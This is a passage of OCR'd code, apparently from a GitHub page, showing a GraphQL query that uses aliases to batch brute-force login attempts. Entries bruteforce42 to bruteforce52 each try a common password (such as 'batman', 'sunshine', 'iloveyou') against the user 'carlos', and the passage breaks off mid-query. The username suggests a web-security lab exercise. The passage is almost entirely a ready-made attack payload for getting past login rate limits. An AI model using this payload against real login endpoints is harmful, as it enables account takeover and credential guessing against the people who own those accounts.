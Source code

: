 ```bash
bruteforce42:login(input:{password: "batman", username: "carlos"}) {
        token
        success
    }


bruteforce43:login(input:{password: "andrew", username: "carlos"}) {
        token
        success
    }


bruteforce44:login(input:{password: "tigger", username: "carlos"}) {
        token
        success
    }


bruteforce45:login(input:{password: "sunshine", username: "carlos"}) {
        token
        success
    }


bruteforce46:login(input:{password: "iloveyou", username: "carlos"}) {
        token
        success
    }


bruteforce47:login(input:{password: "2000", username: "carlos"}) {
        token
        success
    }


bruteforce48:login(input:{password: "charlie", username: "carlos"}) {
        token
        success
    }


bruteforce49:login(input:{password: "robert", username: "carlos"}) {
        token
        success
    }


bruteforce50:login(input:{password: "thomas", username: "carlos"}) {
        token
        success
    }


bruteforce51:login(input:{password: "hockey", username: "carlos"}) {
        token
        success
    }


bruteforce52:login(input:{password: "ranger", username: "carlos"}) {
        token
        success
```